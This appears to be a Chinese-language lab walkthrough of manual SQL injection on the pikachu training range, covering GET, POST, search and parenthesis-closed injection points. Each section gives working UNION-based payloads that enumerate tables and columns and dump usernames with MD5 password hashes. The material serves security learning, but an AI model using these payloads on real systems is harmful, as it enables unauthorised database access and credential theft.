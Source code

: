 # 常规注入

---

（本案例使用pikachu靶场）

## get型   数字/字符串

目标网站的查询语句：select uid,email from xxx where name='admin'  ，查询的name为字符型，需要加单引号闭合

1.判断注入点：（不知道用户情况下，左边必为错误，用and的话判断不了，只能用or，而且需要单引号或者双引号进行闭合）

```
name=1' or 1=1 #  #回显正确，返回所有用户信息，左边错误，右边正确

name=1' or 1=2 #  #回显错误，用户不存在，左右两边均错误
```

出现：

```
your uid:1

your email is: vince@pikachu.com

your uid:2

your email is: allen@pikachu.com

your uid:3

your email is: kobe@pikachu.com
```



2.判断字段个数（不是判断该表的字段总数）

使用order by 不能加or，所有要用查询得到的数据

```
name=kobe' order by 1   #   #从1开始，直到3报错，表示该字段个数是不大于3
```



3.使用当前数据库进行查询表名

```
name=kobe'  union select 1,group_concat(table_name) from information_schema.tables where table_schema = database() #
```

出现：

```
httpinfo,member,message,users,xssblind
```



4.查看其中’user‘表的字段

```
name=kobe'  union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

出现

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
name=kobe' union select username,password from users #
```

出现：

```
admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：e10adc3949ba59abbe56e057f20f883e（123456）

test：e10adc3949ba59abbe56e057f20f883e（123456）
```





## post型  数字/字符串

目标网站的查询语句：select uid,email from xxx where id=1   ，查询的id为数字型，1为输入内容

因前端只能点击选择数字，所以使用bp抓包，绕过这层限制，以下为bp抓包修改id的内容：



1.判断注入点

找到显示报错信息的标签进行定位（notice）

满足以下为数字型注入

```
id=1'  #语法错误，因前面没有单引号，错误信息在最底下

id=1 and 1=1  #正常页面 ，左右边正确返回正常页面（notice定位）

id=1 and 1=2  #用户不存在，左边正确，右边错误，返回用户不存在页面（notice定位）s
```



2.判断页面显示字段的个数（不是判断该表的字段总数）

```
id=1 order by 1   #从1开始试，直到3报错，表示该查询语句的字段个数不大于3
```



3.使用当前数据库进行查询表名

```
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()
```

出现：

```
httpinfo,member,message,users,xssblind
```



4.查看其中’user‘表的数据

```
id=1  union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'
```

出现

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
id=1 union select username,password from users
```

出现：

```
admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：e10adc3949ba59abbe56e057f20f883e（123456）

test：e10adc3949ba59abbe56e057f20f883e（123456）
```





## 搜索型注入

目标网站的查询语句：select * from xxx where name like '%admin%' ，查询的name为字符型，需要加单引号闭合,admin为输入内容

1.判断注入点

```
name=' and 1=1 #查询所有，因为左右均正确

name=' and 1=2 #查询不到，左边正确，右边错误
```



2.判断字段个数

```
name=' order by 1 #从1开始直到4错误，代表字段不大于4个
```



3.查询当前数据库的所有表（加x，让前面模糊查询得不到数据（不加x也行，但是在））

```
name=x' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() #
```

出现：

```
httpinfo,member,message,users,xssblind  
```



4.查看其中’user‘表的数据

```
name=x'  union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' #
```

出现：

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
name=x' union select username,password,3 from users #
```

出现：

```
username：admin

uid:e10adc3949ba59abbe56e057f20f883e

email is: 3

username：pikachu

uid:670b14728ad9902aecba32e22fa4f6bd

email is: 3

username：test

uid:e99a18c428cb38d5f260853678922e03

email is: 3
```





## XX型注入

在上述get和post型的基础上，延伸出xx型注入

闭合的符号未知，得一个个测试，因目标是字符型，所有需要单引号或者双引号（这两个也是要测试）

目标网站的查询语句：select * from xxx where name=('admin')，查询的name为字符型，需要加单引号闭合,admin为输入内容

1.判断注入点（测试出来闭合为 " ) " ）

```
name=') or 1=1 #     #查询出所有数据，左边错误右边正确

name=') or 1=2 #     #不存在用户，左右两边均错误
```



2.判断字段个数

```
name=') order by 1 #      #从1开始，直到3错误，字段个数不大于3
```



3.查询当前库得所有表

```
name=')  union select 1,group_concat(table_name) from information_schema.tables where table_schema = database() #
```

出现：

```
httpinfo,member,message,users,xssblind
```



4.查看其中’user‘表的数据

```
name=')  union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

出现

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password,level,ContractID,CustomerID,ContractNO,CompanyID,CompanyName,ServicePeople,UserRealName,CustomerName,CustomeNO,CustomePhon
```



5.查询user表的username和password字段的数据

```
name=')  union select username,password from users #
```

出现：

```
admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：e10adc3949ba59abbe56e057f20f883e（123456）

test：e10adc3949ba59abbe56e057f20f883e（123456）
```

